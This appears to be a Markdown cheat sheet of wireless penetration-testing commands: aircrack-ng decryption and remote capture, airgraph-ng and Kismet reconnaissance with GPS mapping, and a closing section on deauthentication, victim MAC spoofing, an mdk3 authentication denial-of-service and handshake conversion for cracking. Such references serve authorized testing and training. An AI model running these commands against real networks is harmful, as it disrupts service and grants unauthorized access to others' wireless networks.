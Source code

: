 # Wifi - Additional Tricks and Tools

## Additional Aircrack-NG Tools

### Remove Wireless Headers

```powershell
airdecap-ng -b $AP_MAC open-network.cap
* -dec.cap: stripped version of the file
```

### Decrypt a WEP encrypted capture file

```powershell
airdecap-ng -w $WEP_KEY wep.cap
```

### Decrypt a WPA2 encrypted capture file

```powershell
airdecap-ng -e $AP_SSID -p $WPA_PASSWORD tkip.cap
```

### Remote Aircrack Suite

```powershell
airmon-ng start wlan0 3
airserv-ng -p 1337 -c 3 -d mon0
airodump-ng -c 3 --bssid $AP_MAC $HOST:$PORT
```

### Wireless Intrusion Detection System

> Require wireless key and bssid

```powershell
airmon-ng start wlan0 3

# create the at0 interface
airtun-ng -a $AP_MAC -w $WEP_KEY mon0
# the interface will auto decrypt packets
```

## Wireless Reconnaissance

> Use CSV file from airodump

CAPR Graph

```powershell
airgraph-ng -i wifu-01.csv -g CAPR -o wifu-capr.png
# color
- green: wpa
- yellow: wep
- red: open
- black: unknown
```

CPG - Client Probe Graph

```powershell
airgraph-ng -i wifu-01.csv -g CPG -o wifu-cpg.png
```

## Kismet

```powershell
kismet
[enter][enter]
[tab][close]

# Select a source and begin a monitoring
Kismet > Add source > wlan0 > Add

.nettxt: data
.pcapdump: wireshark format
```

```powershell
# giskismet: kismet inside a SQL database
> require a GPS receiver

gpsd -n -N -D4 /dev/ttyUSB0
-N : foreground 
-D : debugging level

# kismet will gather SSID and GPS location
giskismet -x kismet.netxml

# generate a kml file (Google Earth)
giskismet -q "select * from wireless" -o allaps.kml
giskismet -q "select * from wireless where Encryption='WEP'" -o wepaps.kml
```

## Other things

```powershell
# Find Hidden SSID
aireplay-ng -0 20 –a <BSSID> -c <VictimMac> mon0

# Mac Filtering
macchanger –-mac <VictimMac> wlan0mon
aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
# MAC CHANGER
ifconfig wlan0mon down
macchanger –-mac <macVictima> wlan0mon
ifconfig wlan0mon up

# Deauth Global
aireplay-ng -0 0 -e hacklab -c FF:FF:FF:FF:FF:FF wlan0mon

# Authentication DoS Mode
mdk3 wlan0mon a -a $AP_MAC

# Tshark - Filter and dislay data
tshark -r Captura-02.cap -Y "eapol" 2>/dev/null
tshark -i wlan0mon -Y "wlan.fc.type_subtype==4" 2>/dev/null
tshark -r Captura-02.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" 2>/dev/null

# Convert .cap with handshake to .hccap
aircrack-ng -J network network.cap
```
